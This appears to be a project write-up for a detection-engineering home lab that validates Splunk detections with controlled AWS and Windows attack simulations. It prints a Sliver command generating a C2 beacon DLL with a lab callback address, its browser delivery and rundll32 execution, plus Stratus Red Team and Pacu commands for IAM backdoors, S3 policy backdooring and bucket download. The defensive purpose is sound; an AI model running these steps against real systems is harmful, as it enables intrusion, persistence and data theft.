# Detection Engineering Home Lab

An end-to-end security engineering lab for collecting Windows and AWS telemetry, deploying detections as code, validating them with controlled adversary activity, and orchestrating response actions.

The project combines Splunk Enterprise, Terraform, Sysmon, AWS CloudTrail, Tines, GitHub Issues, LimaCharlie, with some offensive tooling such as Pacu, Stratus Red Team, Cloudfox and Sliver. Its purpose was not simply to make searches return results, but to exercise the detection lifecycle :

> telemetry → detection → alert enrichment → case creation → containment → validation



## Project goals

- Centralize endpoint and cloud telemetry in Splunk.
- Write detections for behaviors rather than isolated indicators.
- Manage Splunk saved searches through Terraform and version control.
- Send structured alerts to Tines for enrichment and response orchestration.
- Validate detections with controlled AWS and Windows attack simulations.
- Demonstrate containment of compromised identities and endpoints.

## Architecture

| Layer | Implementation |
| --- | --- |
| Endpoint telemetry | Sysmon and Windows Event Logs forwarded from domain-joined Windows systems |
| Cloud telemetry | AWS CloudTrail data ingested with the Splunk Add-on for AWS |
| SIEM and analytics | Splunk Enterprise running in Docker |
| Detection as Code | Terraform using the Splunk provider |
| Orchestration | Tines webhook ingestion, parsing, enrichment, and response workflows |
| Case management | GitHub Issues populated with alert context and response links |
| Endpoint response | LimaCharlie host isolation with status verification |
| Identity response | Human-approved AWS session revocation, deny policy application, and access-key deactivation |
| Validation | Pacu, CloudFox, Stratus Red Team for AWS behavior and Sliver for controlled Windows C2 activity |

The diagram also shows Linux and Kubernetes components used for continued lab expansion. This case study focuses on the completed AWS CloudTrail and Windows Sysmon detection paths.

## Detection-as-code design

The Terraform configuration separates rules by telemetry source while applying consistent scheduling, alerting, access-control, and webhook settings:

```text
main.tf
detections.tf
detections_aws_cloudtrail.tf
detections_windows_sysmon.tf
detections_linux.tf
```

The shared resource uses `for_each` to deploy all rules from a merged detection map. Each rule carries `platform` and `data_source` metadata, which is included in the webhook payload for downstream routing. Terraform state migrations preserve existing Splunk resources when rule identifiers change, preventing unnecessary deletion and recreation.

The Windows searches are explicitly scoped to `index=sysmon`, while the cloud searches use `index=aws`. This prevents unrelated indexes from being scanned and keeps telemetry boundaries clear.

## Telemetry onboarding

AWS CloudTrail was connected to Splunk through the Splunk Add-on for AWS. The ingestion identity was configured for the Generic S3 operations required to retrieve CloudTrail objects.

## AWS adversary-emulation attack chain

The AWS validation activity combined Stratus Red Team, CloudFox, and Pacu. These were separate controlled tests arranged as a representative attacker progression; they did not all operate as one uninterrupted compromise or necessarily reuse the same Stratus-created resources.

```text
Persistence
  ├─ stratus detonate aws.persistence.iam-backdoor-role
  └─ stratus detonate aws.persistence.iam-backdoor-user
                         ↓
Discovery and enumeration
  ├─ cloudfox aws --profile Condef -v2 buckets
  ├─ cloudfox aws --profile Condef -v2 principals
  ├─ stratus detonate aws.discovery.ec2-enumerate-from-instance
  └─ stratus detonate aws.discovery.ec2-download-user-data
                         ↓
S3 access-path modification
  └─ stratus detonate aws.exfiltration.s3-backdoor-bucket-policy
                         ↓
Collection and simulated exfiltration
  └─ Pacu run s3__download_bucket
```

### CloudTrail telemetry generated

| Stage | Activity | Principal CloudTrail telemetry | Detection relationship |
| --- | --- | --- | --- |
| Persistence | Backdoor an existing IAM role | `UpdateAssumeRolePolicy` from `iam.amazonaws.com`; the request contains the modified trust policy, role name, caller identity, source IP, and user agent | Valuable persistence telemetry, but not directly covered by the current user-and-access-key correlation rule |
| Persistence | Create an access key on an IAM user | `CreateAccessKey`; Stratus provisioning or other activity may also produce `CreateUser` and `GetUser` | Directly exercises **Account creates user and access keys** when user creation and key creation occur inside the correlation window |
| Discovery | CloudFox bucket enumeration | Read-only calls such as `ListBuckets` and follow-up bucket-inspection APIs; exact calls vary with CloudFox version, permissions, and discovered resources | Contributes to **Suspicious API-call volume** and may produce access-denied telemetry |
| Discovery | CloudFox principal enumeration | IAM enumeration such as `ListUsers`, `ListRoles`, and related read-only calls; the exact mix varies by version and permissions | Contributes to **Suspicious API-call volume** and preserves the enumerated API names for investigation |
| Discovery | Enumerate AWS from an EC2 role | `GetCallerIdentity`, `ListBuckets`, `GetAccountSummary`, `ListRoles`, `ListUsers`, `GetAccountAuthorizationDetails`, `DescribeSnapshots`, `DescribeTrails`, and `ListDetectors` under an assumed EC2 instance role | Produces a concentrated burst for **Suspicious API-call volume**; the assumed-role ARN helps distinguish instance activity |
| Discovery | Attempt to retrieve EC2 user data | `AssumeRole` followed by repeated `DescribeInstanceAttribute` requests for the `userData` attribute; the Stratus test intentionally generates authorization failures | Directly exercises **Anomalous access-denied activity** through `errorCode` and `errorMessage` fields |
| Exfiltration preparation | Backdoor an S3 bucket policy | `PutBucketPolicy`; the request records the bucket and policy granting an external principal access | High-value policy-change telemetry and a current opportunity for a dedicated bucket-policy detection |
| Collection/exfiltration | Enumerate and download S3 objects with Pacu | Bucket enumeration followed by object-listing and `GetObject` activity when downloads are approved | `GetObject` data events and `additionalEventData.bytesTransferredOut` feed **Possible S3 data exfiltration**; S3 data-event logging must be enabled |

Across these events, the investigation fields of greatest value were `eventName`, `eventSource`, `eventCategory`, `userIdentity`, `sourceIPAddress`, `userAgent`, `requestParameters`, `errorCode`, `errorMessage`, `resources`, and `additionalEventData.bytesTransferredOut`. Together they show who performed an action, from where, with which tool or session, against which resource, whether it succeeded, and how much object data left S3.

This exercise also identified two useful coverage expansions: a dedicated alert for `UpdateAssumeRolePolicy` that introduces an external principal, and a `PutBucketPolicy` rule that detects newly granted cross-account access. Those behaviors are visible in CloudTrail but are not the primary focus of the current four AWS alerts.

The telemetry mapping was validated against the official documentation for [Stratus Red Team's IAM-role persistence](https://stratus-red-team.cloud/attack-techniques/AWS/aws.persistence.iam-backdoor-role/), [IAM-user access-key persistence](https://stratus-red-team.cloud/attack-techniques/AWS/aws.persistence.iam-backdoor-user/), [EC2-role enumeration](https://stratus-red-team.cloud/attack-techniques/AWS/aws.discovery.ec2-enumerate-from-instance/), [EC2 user-data discovery](https://stratus-red-team.cloud/attack-techniques/AWS/aws.discovery.ec2-download-user-data/), and [S3 bucket-policy backdooring](https://stratus-red-team.cloud/attack-techniques/AWS/aws.exfiltration.s3-backdoor-bucket-policy/), along with the official [CloudFox command reference](https://github.com/BishopFox/cloudfox/wiki/AWS-Commands) and [Pacu module reference](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details).

## Windows adversary simulation

The endpoint detections were validated with a controlled Sliver beacon inside the isolated lab. On the Linux test system, I generated a Windows ARM64 shared-library payload configured for mutual-TLS communication, a 75-second callback interval, and 30% jitter:

```text
generate beacon --mtls 192.168.1.157:7777 --os windows --arch arm64 \
  --format shared --save /tmp/evil-5-task.dll --seconds 75 --jitter 30
```



I then served the DLL from the Linux system with `python3 -m http.server 8000` and downloaded it onto the Windows test endpoint through Chrome. This reproduced a simple browser-based payload-delivery path while keeping every component inside the lab network.

From the Windows Downloads directory, I invoked the DLL's `Start` export with `rundll32.exe`. The screenshot also shows the cleanup command used after the validation run.



This sequence produced the endpoint telemetry used by the detections:

- Browser retrieval can produce network-connection and file-creation telemetry, depending on the enabled Sysmon configuration.
- `rundll32.exe` execution produces process context, including its image path, command line, parent process, user, host, and `ProcessGuid`.
- Loading the unsigned DLL produces Sysmon Event ID 7 with the DLL path and signature status.
- Beacon callbacks produce Sysmon Event ID 3 with the source address, destination address, destination port, initiating process, and the same `ProcessGuid`.
- The configured sleep and jitter create recurring but non-identical callback intervals. Splunk observed repeated connections near the upper end of that range, approximately 95–97 seconds apart.

The shared `ProcessGuid` is the critical correlation field: it allowed Splunk to associate the unsigned DLL load with network activity from the same `rundll32.exe` instance instead of combining unrelated events from the host.

## Detection coverage

### AWS CloudTrail

| Detection | Behavior covered | Lab logic |
| --- | --- | --- |
| Account creates user and access keys | IAM persistence | Correlates `CreateUser` and `CreateAccessKey` within ten minutes |
| Anomalous access-denied activity | Enumeration or misconfiguration | Models unusual spikes in `AccessDenied` events by account, identity, and source IP |
| Possible S3 data exfiltration | Unusual outbound object transfer | Aggregates `bytesTransferredOut` by user and bucket in 15-minute windows |
| Suspicious API-call volume | Automated discovery or enumeration | Counts API activity per user and flags lab volumes above 100 calls |

The persistence scenario linked user creation and access-key creation into a single result rather than treating each API call as an unrelated event.



The resulting saved-search alert arrived in Tines with the initiating user, target user, correlated API calls, event count, SPL query, and Splunk search identifier. This confirmed that the correlation survived the full alert-delivery path rather than only producing an interactive search result.



The anomalous access-denied rule grouped failures by time, account, source address, and identity, then used Splunk's anomaly-detection output to surface unusual concentrations. The validation activity produced denied `AssumeRole` behavior with the attempted resource and error context preserved for investigation.



The API-volume detection summarized hundreds of calls and preserved the underlying API names for investigation.



Tines received the same alert with the user, API-call collection, total call count, and the `Suspicious` classification. This provides a second record of successful SIEM-to-SOAR delivery.



The S3 rule aggregated `additionalEventData.bytesTransferredOut` by source user, bucket, and 15-minute window. During the controlled Pacu test, the result exceeded the deliberately low lab threshold and retained both the raw byte count and calculated megabytes transferred.



The corresponding Tines event preserved the source user, bucket, transfer totals, search name, SID, and result link for downstream handling.



The thresholds in this lab are intentionally sensitive so validation activity produces observable results. Production thresholds would require baselining, service-account exclusions, and environment-specific tuning.

### Windows Sysmon

| Detection | Telemetry | Behavior covered |
| --- | --- | --- |
| Unexpected process makes a network connection | Sysmon Event ID 3 | Network activity from processes outside a tuned allowlist, including recurring connection intervals |
| Unsigned DLL load and network activity in the same process | Sysmon Event IDs 7 and 3 | Correlates an unsigned DLL load with network traffic from the same `ProcessGuid` within 15 minutes |

To validate the first rule, a controlled Sliver beacon was executed in the lab. Splunk identified recurring `rundll32.exe` connections from the test endpoint to the lab C2 system, including the approximately 95–97 second beacon interval.



The second rule correlated an unsigned DLL loaded by `rundll32.exe` with network activity from that same process. Correlation on `ProcessGuid` reduced the risk of incorrectly combining unrelated host activity.



The resulting Tines event preserved the Windows platform, Sysmon data source, rule description, trigger window, SPL query, result fields, search identifier, and direct Splunk results link.



## Alert enrichment and orchestration

Splunk sends alert context to Tines through Better Webhooks. The structured payload includes:

- Platform and data source
- Detection description
- Search-window boundaries
- Original SPL query
- Triggering result
- Search name, SID, and result link

Tines receives and parses the alert before passing relevant context to case-management and response steps.

The complete Tines story shows the shared intake path and the two response branches. Alerts enter through a webhook, are parsed and normalized, and create a GitHub issue. Windows events can continue through the LimaCharlie isolation and verification sequence, while AWS events pass through a containment check and analyst selection page before access is revoked.





GitHub Issues provide a lightweight investigation record with the detection description, query, trigger window, labels, and response options.

